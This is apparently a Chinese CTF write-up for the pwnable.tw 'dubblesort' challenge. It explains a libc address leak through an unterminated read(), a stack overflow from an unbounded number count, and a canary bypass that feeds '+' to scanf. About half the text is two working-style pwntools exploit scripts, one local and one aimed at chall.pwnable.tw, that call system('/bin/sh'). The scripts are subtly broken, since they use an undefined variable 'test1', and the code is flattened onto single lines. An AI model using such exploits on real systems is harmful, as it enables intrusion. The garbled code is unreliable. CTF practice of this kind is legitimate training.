


题目文件如下：
dubblesort
libc.so
首先查看二进制基本信息：
1 2 3 4 5 6 7 8 9 10 11 $ file dubblesort dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped $ checksec dubblesort [*] '/home/bling/pwnable_tw/dubblesort/dubblesort' Arch: i386-32-little RELRO: Full RELRO Stack: Canary found NX: NX enabled PIE: PIE enabled FORTIFY: Enabled
IDA分析伪代码流程，如下代码中将几个漏洞点标记出来了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 int __cdecl main (int argc, const char **argv, const char **envp) unsigned int v3; _BYTE *v4; unsigned int i; unsigned int j; int result; unsigned int v8; _BYTE v9[32 ]; char buf[64 ]; unsigned int v11; v11 = __readgsdword(0x14 u); sub_8B5(); __printf_chk(1 , "What your name :" ); read(0 , buf, 0x40 u); __printf_chk(1 , "Hello %s,How many numbers do you what to sort :" ); __isoc99_scanf("%u" , &v8); v3 = v8; if ( v8 ) { v4 = v9; for ( i = 0 ; i < v8; ++i ) { __printf_chk(1 , "Enter the %d number : " ); fflush(stdout ); __isoc99_scanf("%u" , v4); v3 = v8; v4 += 4 ; } } sub_931(v9, v3); puts ("Result :" ); if ( v8 ) { for ( j = 0 ; j < v8; ++j ) __printf_chk(1 , "%u " ); } result = 0 ; if ( __readgsdword(0x14 u) != v11 ) sub_BA0(); return result; }
read函数接收输入后（把’\n’也当作一个字符），并不会在末尾添加”\x00”。那么如果后续以”%s”对该输入进行输出操作，就会越界打印，造成信息泄露。
随便输入几个字母，可以看到打印出了乱码。多打印出来的字符来自于栈上，栈上可能存有libc的地址，因此考虑用这个漏洞泄露libc基址。
下图展示了本地栈空间内容，输入的是‘aaaa’（对应0xffffce4c处的0x61616161），可以看到0x61616161后的栈空间内有很多f7开头的、长得很像地址的值。对应到vmmap获取的进程空间，目标集中在了“0xf7fb2000”这个值。输入的第六和第七个单元都是它，经过实践，本地泄露第六个单元能成功，远程泄露第七个单元才能成功。
另外还有一个需要注意的点，本地调试中0xf7fb2000对应libc的got.plt段，其加载偏移通过readelf -S /lib/i386-linux-gnu/libc-2.27.so得到是0x1d8000，因此本地利用时libc基址为0xf7fb2000 - 0x1d8000。
而远端libc跟本地不一样，其got.plt段加载偏移通过readelf -S libc_32.so.6得到是0x1b0000。因此在打远程的时候，需要用泄露地址 - 0x1b0000来得到lbic基址。

源码中V8是用户输入的数据，未做限制便作为for循环的条件，导致可以往栈上写任意长度的数据。
1 2 3 4 5 6 7 8 9 10 11 12 if ( v8 ){ v4 = v9; for ( i = 0 ; i < v8; ++i ) { __printf_chk(1 , "Enter the %d number : " ); fflush(stdout ); __isoc99_scanf("%u" , v4); v3 = v8; v4 += 4 ; } }
scanf函数在格式字符类型和输入字符类型不匹配时，不会将内容写入栈上，也不会报错，而是继续执行。
本题中利用scanf的这个特性，可以绕过canary的限制。
scanf(“%u”,v4)：
当输入的v4为字母时，会被定义为非法字符，虽然不会往栈上写数据，但这个字母会一直存在于输入缓冲区，导致一直无法输入。
而当输入为’+’ ‘-‘这两个字符时，由于他们可以定义数字的正负，因此不会被定义为非法字符。同时单独输入该字符又能达到不往栈上写入数据的目的。
1 2 3 4 5 6 7 8 9 10 11 12 if ( v8 ) { v4 = v9; for ( i = 0; i < v8; ++i ) { __printf_chk(1, "Enter the %d number : "); fflush(stdout); __isoc99_scanf("%u", v4); v3 = v8; v4 += 4; } }

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) myelf = ELF("./dubblesort" ) pr = process(myelf.path) pr.recvuntil("What your name :" ) pr.sendline("aaaabbbbccccddddeeee" ) pr.recvuntil("eeee\n" ) libc = pr.recvuntil("," )[:3 ].ljust(4 ,"\x00" ) libc = u32(test1)<<8 log.warn("leak libc : 0x%x" % test1) libc_base_remote = libc - 0x1b0000 log.warn("libc base: 0x%x" % libc_base_remote) sys_remote = libc_base_remote + 0x3A940 binsh_remote = libc_base_remote + 0x158E8B pr.recvuntil("do you what to sort :" ) pr.sendline(str (35 )) for i in range (24 ): pr.recvuntil("number : " ) pr.sendline(str (i)) pr.recvuntil("number : " ) pr.sendline('+' ) for j in range (7 ): pr.recvuntil("number : " ) pr.sendline(str (0xeeeeeee0 +j)) pr.recvuntil("number : " ) pr.sendline(str (sys_remote)) pr.recvuntil("number : " ) pr.sendline(str (sys_remote+0x10 )) pr.recvuntil("number : " ) pr.sendline(str (binsh_remote)) pr.interactive()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) pr = remote('chall.pwnable.tw' ,10101 ) pr.recvuntil("What your name :" ) pr.sendline("aaaabbbbccccddddeeeeffff" ) pr.recvuntil("ffff\n" ) libc = pr.recvuntil("," )[:3 ].ljust(4 ,"\x00" ) libc = u32(test1)<<8 log.warn("leak libc : 0x%x" % test1) libc_base_remote = libc - 0x1b0000 log.warn("libc base: 0x%x" % libc_base_remote) sys_remote = libc_base_remote + 0x3A940 binsh_remote = libc_base_remote + 0x158E8B pr.recvuntil("do you what to sort :" ) pr.sendline(str (35 )) for i in range (24 ): pr.recvuntil("number : " ) pr.sendline(str (i)) pr.recvuntil("number : " ) pr.sendline('+' ) for j in range (7 ): pr.recvuntil("number : " ) pr.sendline(str (0xeeeeeee0 +j)) pr.recvuntil("number : " ) pr.sendline(str (sys_remote)) pr.recvuntil("number : " ) pr.sendline(str (sys_remote+0x10 )) pr.recvuntil("number : " ) pr.sendline(str (binsh_remote)) pr.interactive()
pwnable.tw刷题之dubblesort